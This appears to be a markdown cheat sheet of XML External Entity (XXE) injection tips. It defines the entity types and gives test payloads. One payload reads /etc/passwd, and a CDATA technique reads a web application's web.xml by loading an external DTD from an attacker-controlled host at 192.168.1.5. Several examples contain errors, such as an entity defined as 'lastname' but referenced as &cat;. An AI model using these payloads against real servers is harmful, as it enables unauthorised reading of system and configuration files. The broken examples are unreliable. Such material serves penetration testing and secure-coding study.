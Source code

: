 #  XML External Entity (XXE) Injection Tips

## XML Entities
* Internal Entities
    ```xml
    <!ENTITY name "entity_value">
    #Example
    <!ENTITY test "<entity-value>test value</entity-value>">
    ```
* External Entities
    * Private external entity
        ```xml
        <!ENTITY name SYSTEM "URI">
        # Example of private external entity
        <!ENTITY textinfo SYSTEM "http://domain.com>
        ```
    * Public External Entity
        ```xml
        <!ENTITY name PUBLIC "public_id" "URI">
        # Example
        <!ENTITY textinfo PUBLIC "-//W3C//TEXT orginfo//EN" "https://www.domain.com/orginfo.xml">
        ```
* Parameter Entities (%)
    ```xml
    <!ENTITY % name SYSTEM "URI">
    # Example
    <!ENTITY % food 'Breakfast'>
    <!ENTITY Title 'Bacon & Eggs would be my %course;'>
    ```
* Unparsed External Entities
    ```xml
    <!ENTITY name SYSTEM "URI" NDATA TYPE>
    <!ENTITY name PUBLIC "public_id" "URI" NDATA TYPE>
    ```

## Test Payload
### Using private External Entity
```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY cat "Tom">
]>
<Contact>
<lastName>&cat;</lastName>
<firstName>Jerry</firstName>
</Contact>
```
### Using a public External Entity
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
<lastName>&cat;</lastName>
<firstName>Jerry</firstName>
</Contact>
```

## CDATA
* XXE that can print XML files through the CDATA:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///var/www/html/myapp/WEB-INF/web.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://192.168.1.5:8000/wrapper.dtd" >
    %dtd;
    ]>
    <Contact>
    <lastName>&wrapper;</lastName>
    <firstName>FIRSTNAME_FILLER</firstName>
    </Contact>
    ```
* Inside the wrapper.dtd (the external DTD file)
    * Its purpose is just to wrap the variables(parameters) into 1
    ```xml
    <!ENTITY wrapper "%start;%file;%end;">
    ```
